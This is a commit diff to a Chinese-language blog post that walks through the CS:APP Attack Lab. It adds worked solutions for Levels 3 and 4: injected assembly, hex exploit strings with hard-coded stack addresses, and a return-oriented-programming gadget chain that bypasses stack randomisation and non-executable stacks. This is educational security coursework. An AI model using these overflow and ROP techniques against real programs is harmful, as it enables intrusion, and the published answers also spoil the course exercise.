

Before and after one commit to QifanWang/QifanWang.github.io, a Jekyll site: the page built from _posts/2021-05-11-csapp-attack-lab.md, in a window 1280 px wide and 1400 px high, scrolled down 2067 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
attack lab phase 1-4

```diff
--- a/_posts/2021-05-11-csapp-attack-lab.md
+++ b/_posts/2021-05-11-csapp-attack-lab.md
@@ -53,7 +53,7 @@ void test()
 
 ## Level 2
 
-目的是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch2函数开始处，并以指定数值作为参数，为此需要注入代码。
+目标是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch2函数开始处，并以指定整数值作为参数，为此需要注入代码。
 
 注入指令代码，
 {% highlight nasm %}
@@ -65,7 +65,7 @@ void test()
 
 注意，指令中用的是立即数，小心编写指令。
 
-溢出两个地址，会产生段错误，因为原先第二个位置的值被覆盖了，其不是地址值。
+溢出两个地址，会产生段错误，可能是因为原先栈位置的值被使用了。
 
 题目要求使用 ret 转移控制，可以通过指令压入 touch2 开始地址。
 
@@ -86,8 +86,79 @@ c3 /* retq */
 78 dc 61 55 00 00 00 00 /* buf start address 0x5561dc78 */
 {% endhighlight %}
 
+## Level 3
+
+目标是通过缓冲区溢出，使test函数调用getbuf函数后，返回到touch3函数开始处，并以指定字符串作为参数，为此需要注入代码。
+
+需要注意的是，由于 touch3 函数会调用 hexmatch 与 strncmp 函数，栈空间会变化与重写，字符串数据不能简单地放在 buf 中。
+
+字符串数据放在缓冲区溢出的地址 0x5561dca8 处，注入指令代码，
+{% highlight nasm %}
+ # Level 3 injection code
+	movq $0x5561dca8, %rdi	# string start address
+	push $0x4018fa		# push touch3 address
+	retq			# return touch3
+{% endhighlight %}
+
+注入代码与数据的对应十六进制表示为，
+{% highlight nasm %}
+48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi */
+68 fa 18 40 00 /* pushq  $0x4018fa */
+c3 /* retq */
+30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 /* 27 bytes */
+78 dc 61 55 00 00 00 00 /* buf start address 0x5561dc78 */
+35 39 62 39 39 37 66 61 /* cookie 59b997fa ASCII value */
+{% endhighlight %}
+
+## Level 4
+
+第二部分的 rtarget 开始(1)使用栈随机化，使得注入代码难以定位，(2)限制栈区域内存为 nonexecutable (不可执行)，即使通过溢出地址定位到注入代码，程序也不会执行(发生段错误)。
+
+因此，不是注入代码进行攻击，而是利用现有代码。例如，
+{% highlight nasm %}
+0000000000400f15 <setval_210>:
+	400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
+	400f1b: c3 retq
+{% endhighlight %}
+
+通过溢出地址，可以将 PC(Program Counter) 定位到 0x400f18 处，序列 48 89 c7 是指令 movq %rax, %rdi 的编码。由此，我们可以改变程序行为。
+
+我们可以说 movl $0xc78948d4,(%rdi) 这个指令是，
+> this code contains a gadget
+
+本阶段的目标同 Level 2 一样，只是需要通过抽取 gadget 完成参数赋值。根据 Lab 限定的范围与提示，我们需要完成以下两个指令(可插入 nop)，
+{% highlight nasm %}
+popq %rax
+movq %rax, %rdi
+{% endhighlight %}
+
+相应的函数为，
+
+function | start address | gadget address | instruction
+--- | --- | --- | ---
+addval_219 | 0x4019a7 | 0x4019ab | popq %rax
+setval_426 | 0x4019c3 | 0x4019c5 | movq %rax, %rdi
+
+为此构造的 exploit string 的十六进制表示为，
+{% highlight nasm %}
+30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 /* 40 bytes */
+ab 19 40 00 00 00 00 00 /* popq %rax instruction address */
+fa 97 b9 59 00 00 00 00 /* para value to %rax : 0x59b997fa */
+c5 19 40 00 00 00 00 00 /* movq %rax, %rdi instruction address 0x4019c5 */
+ec 17 40 00 00 00 00 00 /* touch2 start address */
+{% endhighlight %}
+
+## Level 5
 
 待续。
+
+## Conclusions
+
+通过 Level1~3 的实验我们可以看到，(1)通过缓冲区溢出返回地址，可以使程序跳转到指定地址，(2)在不限制内存的可执行代码区域时，用户可以向缓冲区内注入代码。
+
+如果 ctarget 是一个网络服务器，我们将可以向远程机器注入代码，改变服务器的行为。
+
+通过 Level 4 我们可以看到，如何绕过两种防止缓冲区溢出攻击的机制，即通过已有代码的片段(gadget)改变程序行为。
 
 {% highlight nasm %}
 
```
